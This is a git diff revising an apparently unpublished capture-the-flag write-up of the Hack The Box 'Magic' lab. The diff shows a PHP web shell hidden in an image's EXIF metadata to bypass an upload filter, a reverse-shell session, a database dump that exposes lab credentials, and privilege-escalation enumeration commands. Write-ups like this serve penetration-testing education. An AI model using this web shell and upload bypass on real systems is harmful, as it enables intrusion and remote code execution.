

Final version of HTB Magic

Changed region(s): [[0.0, 0.0, 1.0, 1.0], [0.462, 0.0615, 0.5853, 0.0923], [0.0, 0.0615, 0.0924, 0.0923]]

diff --git a/_unpublishedPosts/HTB-Magic-Writeup.md b/_unpublishedPosts/HTB-Magic-Writeup.md
@@ -120,7 +120,7 @@ Since we can upload files and access them, we could try to upload a PHP web shel
  is shown below. This web shell executes anything passed in a GET parameter named "cmd". 
 
 {% highlight php linenos %}
-<?php system($_REQUEST['cmd']); ?>
+<?php system($_REQUEST["cmd"]); ?>
 {% endhighlight %}
 
 If we save this web shell in a file named "ws.php" and try to upload it, the web application provides us with an error stating that the file type is not allowed.
@@ -162,7 +162,7 @@ Megapixels                      : 0.239
 We start by executing `cp hackerCat.png evilHackerCat.png` to create a copy of the image. Next, we use `exiftool` to create a metadata tag named "Author" which holds our web shell. 
 {% highlight none linenos %}
 kali@kali:/tmp/x$ @@cp hackerCat.png evilHackerCat.png@@
-kali@kali:/tmp/x$ @@exiftool -author='<?php system($_REQUEST['cmd']); ?>' evilHackerCat.png@@
+kali@kali:/tmp/x$ @@exiftool -author='<?php system($_REQUEST["cmd"]); ?>' evilHackerCat.png@@
     @@@1 image files updated@@@
 {% endhighlight %}
 
@@ -173,9 +173,9 @@ ExifTool Version Number         : 12.10
 File Name                       : evilHackerCat.png
 Directory                       : .
 File Size                       : 338 kB
-File Modification Date/Time     : 2022:03:04 10:36:29-05:00
-File Access Date/Time           : 2022:03:04 10:36:29-05:00
-File Inode Change Date/Time     : 2022:03:04 10:36:29-05:00
+File Modification Date/Time     : 2022:03:09 08:27:32-05:00
+File Access Date/Time           : 2022:03:09 08:27:32-05:00
+File Inode Change Date/Time     : 2022:03:09 08:27:32-05:00
 File Permissions                : rw-r--r--
 File Type                       : PNG
 File Type Extension             : png
@@ -188,14 +188,14 @@ Compression                     : Deflate/Inflate
 Filter                          : Adaptive
 Interlace                       : Noninterlaced
 Significant Bits                : 8 8 8 8
-@@@Author@@@                          : @@@<?php system($_REQUEST[cmd]); ?>@@@
+@@@Author@@@                          : @@@<?php system($_REQUEST["cmd"]); ?>@@@
 Image Size                      : 601x398
 Megapixels                      : 0.239
 {% endhighlight %}
 
 ![uploadEvil](/assets/{{ imgDir }}/uploadEvil.png)
 
-If we go back to the upload page and try to reupload it, we can see that the web application accepts the image. However, if we visit [http://10.10.10.185/images/uploads/evilHackerCat.png](http://10.10.10.185/images/uploads/evilHackerCat.png) and inspect the response in Burp Suite, we discover that the web application did not execute our PHP code.
+If we go back to the `upload.php` page and try to upload our new image, we can see that the web application accepts the image. However, if we visit [http://10.10.10.185/images/uploads/evilHackerCat.png](http://10.10.10.185/images/uploads/evilHackerCat.png) and inspect the response in Burp Suite, we discover that the web application did not execute our PHP code.
 
 ![noRCE](/assets/{{ imgDir }}/noRCE.png)
 
@@ -226,7 +226,7 @@ listening on [any] 443 ...
 @@@connect to [10.10.14.3] from (UNKNOWN) [10.10.10.185] 50210@@@
 bash: cannot set terminal process group (1144): Inappropriate ioctl for device
 bash: no job control in this shell
-www-data@ubuntu:/var/www/Magic/images/uploads$ @@python3 -c 'import pty; pty.spawn("/bin/bash")'@@
+@@@www-data@@@@ubuntu:/var/www/Magic/images/uploads$ @@python3 -c 'import pty; pty.spawn("/bin/bash")'@@
 <ds$ python3 -c 'import pty; pty.spawn("/bin/bash")'
 www-data@ubuntu:/var/www/Magic/images/uploads$
 {% endhighlight %}
@@ -309,7 +309,7 @@ INSERT INTO `login` VALUES (1,'@@@admin@@@','@@@Th3s3usW4sK1ng@@@');
 [...]
 {% endhighlight %}
 
-Unfortunately, the `mysql` command does not exist on the target host. As such, we can not use this binary for database connections and executions of arbitrary SQL queries. However, since the `mysqldump` binary exists, we can dump the entire database and look for sensitive information in the dump. We can use the `--databases`, `-u` and `-p` flags to instruct the binary to dump the database named "Magic" with the credentials we found earlier. In the output of the command, we can see a row of the `Login` table which contains the username "admin" and password "Th3s3usW4sK1ng". At this point, we have acquired two potential usernames and two passwords. 
+Unfortunately, the `mysql` command does not exist on the target host. As such, we can not use this binary for database connections and executions of arbitrary SQL queries. However, since the `mysqldump` binary exists, we can dump the entire database and look for sensitive information in the dump. We can use the `--databases`, `-u` and `-p` flags to instruct the binary to dump the database named "Magic" with the credentials we found earlier. In the output of the command, we can see a row of the `Login` table which contains the username "admin" and password "Th3s3usW4sK1ng". At this point, we have acquired two usernames and two passwords. 
 
 {% highlight none linenos %}
 www-data@ubuntu:/var/www/Magic/images/uploads$ @@cat /etc/passwd | grep "theseus:"@@
@@ -336,7 +336,7 @@ Password: @@Th3s3usW4sK1ng@@
 
 By executing the command `groups` we can see that the `theseus` user is a member of the `theseus` and `users` group. The latter is a non-standard group and thus it could be interesting to search for directories and files owned by this group. We can do this using the command `find / -group users -exec ls -l {} \; 2>/dev/null`. 
 
-The `-exec ls -l {} \;` portion of the command instructs `find` to execute `ls -l [fileOrDir]` for each discovered directory and file, to provide us with more information about it. The `2>/dev/null` portion of the command disables error messages by redirecting them to `/dev/null`. This is useful since it is likely that there are many folders that we can not access, which would result in a large number of `permission denied` errors.
+The `-exec ls -l {} \;` portion of the command instructs `find` to execute `ls -l` for each discovered directory and file, to provide us with more information about it. The `2>/dev/null` portion of the command disables error messages by redirecting them to `/dev/null`. This is useful since it is likely that there are many folders that we can not access, which would result in a large number of `permission denied` errors.
 
 {% highlight none linenos %}
 theseus@ubuntu:/var/www/Magic/images/uploads$ @@groups@@
